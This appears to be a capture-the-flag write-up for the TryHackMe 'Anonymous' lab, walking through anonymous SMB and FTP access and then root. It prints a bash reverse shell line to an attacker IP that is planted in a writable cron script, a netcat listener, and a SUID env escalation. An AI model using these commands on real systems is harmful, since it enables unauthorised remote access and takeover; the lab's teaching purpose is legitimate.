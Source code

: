 # Anonymous-TryHackMe

This is a writeup for THM box - Anonymous
https://tryhackme.com/room/anonymous

## namp
Doing a nmap scan we found 4 ports open

![](images/nmap1.png)

## SMB
Connecting to the smb share and pressing `enter` when we asked for the passwd we find

[![](images/smb1.png)]
entering the `pics` dir we get two images but they are of no use.

![](images/smb2.png)

![corgo2.jpg|300x200](images/corgo2.jpg "corgo2.jpg")    ![|300x200](images/puppos.jpeg)
					corgo.jpg                                                   puppos.jpg


## FTP 
connecting to ftp we get 3 files 
![|](images/ftp1.png)

***
Interesting files are 
###### `clean.sh`
Notice we have write permission to this file.
```bash 
#!/bin/bash

tmp_files=0
echo $tmp_files
if [ $tmp_files=0 ]
then
        echo "Running cleanup script:  nothing to delete" >> /var/ftp/scripts/removed_files.log
else
    for LINE in $tmp_files; do
        rm -rf /tmp/$LINE && echo "$(date) | Removed file /tmp/$LINE" >> /var/ftp/scripts/removed_files.log;done
fi

```

######  `removed_files.log`
It contains the log written by `clean.sh`
```text
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete
Running cleanup script:  nothing to delete

```

As `clean.sh` is run periodically we can add our own script to it and get a shell .
Using [revshells](https://www.revshells.com/) we modify `clean.sh` as 
```bash
#!/bin/bash
sh -i >& /dev/tcp/10.17.52.250/5050 0>&1
```

and we put the file on the ftp server 
```
ftp> put clean.sh 
local: clean.sh remote: clean.sh
229 Entering Extended Passive Mode (|||31290|)
150 Ok to send data.
100% |************************************************************************************************************************************************|    53      958.47 KiB/s    00:00 ETA
226 Transfer complete.
53 bytes sent in 00:00 (0.10 KiB/s)
ftp> 
```

Now we litsen on our machine with the following  command
```bash
nc -lvnp 5050
```

After 1 min we get a shell on the box

![](images/shell1.png)
looking for `SUID` on the box we get 
```bash
$ find / -perm -u=s -type f 2>/dev/null
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/bin/umount
/bin/fusermount
/bin/ping
/bin/mount
/bin/su
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/snapd/snap-confine
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/env
/usr/bin/gpasswd
/usr/bin/newuidmap
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/chfn
/usr/bin/sudo
/usr/bin/traceroute6.iputils
/usr/bin/at
/usr/bin/pkexec
```

Using https://gtfobins.github.io/ we fing env binary to be useful and we get the  root shell on the system.
![](images/shell2.png)

